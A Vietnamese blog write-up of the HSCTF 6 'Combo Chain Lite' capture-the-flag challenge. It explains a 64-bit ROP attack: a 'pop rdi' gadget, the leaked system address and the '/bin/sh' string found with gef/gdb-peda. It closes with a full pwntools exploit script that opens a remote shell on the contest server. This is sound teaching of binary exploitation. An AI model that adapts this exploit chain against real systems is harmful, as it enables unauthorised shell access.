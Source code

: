 ```yaml
---
layout: post
published: true
title: 'HSCTF 6: Combo Chain Lite'
categories:
  - CTF
  - HSCTF
---
```

Xin chào.
Hôm nay mình muốn viết lại challenge này.

![Capture-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/Capture-combo-chain-lite.PNG)


Chall sử dụng ROP (Return Oriented Programming). Nên trước tiên ta tìm địa chỉ chưa ROPgadget phù hợp.
Trong quy ước gọi ([calling conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)), các đối số được truyền vào các registers trong các chương trình 64-bit theo thứ tự như link tham khảo. Trong trường hợp của gọi `system`, thì chúng ta cần phải điều khiển thanh ghi RDI. Mình sẽ tìm các ROPgadget liên quan tới `pop rdi`. 

{: .box-note}
ROPgadget \--binary ./combo-chain-lite \| grep "pop rdi"

Khi đã có được địa chỉ của ROP, ta sẽ cần tìm địa chỉ của hàm `system` khi được nạp vào chương trình khi được thực thi. Tuy nhiên ở đây chương trình đã cung cấp sẵn cho ta.

![exec-combo-chain-lite.PNG]({{site.baseurl}}/img/ctf/HSCTF/2019/exec-combo-chain-lite.PNG)

Tiếp theo ta cần tìm cách đưa chuỗi "/bin/sh" vào như đối số của `system`.
Nếu để ý thì trong chương trình đã có sẵn chuỗi đó, việc cần làm là tìm địa chỉ của nó trong chương trình mà thôi.

Có thể dùng gef hoặc gdb-peda.

-**Đối với gef:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
{% endhighlight %}

-**Đối với gdb-peda:**
{% highlight bash linenos %}
$ gdb ./combo-chain-lite
gdb-peda$ b*0x0000000000401209  #đặt breakpoint ở đoạn instruction sau khi in chuỗi
gdb-peda$ r
...
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7f67e80 --> 0x68732f6e69622f ('/bin/sh')
{% endhighlight %}


  

Đoạn code exploit của mình:

{% highlight python linenos %}
#Completed

from pwn import *

rm = remote("pwn.hsctf.com", 3131)

padding = "AAA%AAsAABAA$AAn" #16 ki tu (random pattern)
rop_addr = p64(0x0000000000401273)
bin_addr = p64(0x402051) #hoac 0x403051 /bin/sh string
sys_addr = p64(int(rm.recv().rsplit(': ')[1], 16)) 

payload = padding + rop_addr  + bin_addr + sys_addr
print payload
rm.recv()
rm.sendline(payload)
rm.interactive()
rm.close()
{% endhighlight %}

![combo-chain-lite-exploit.png]({{site.baseurl}}/img/ctf/HSCTF/2019/combo-chain-lite-exploit.png)
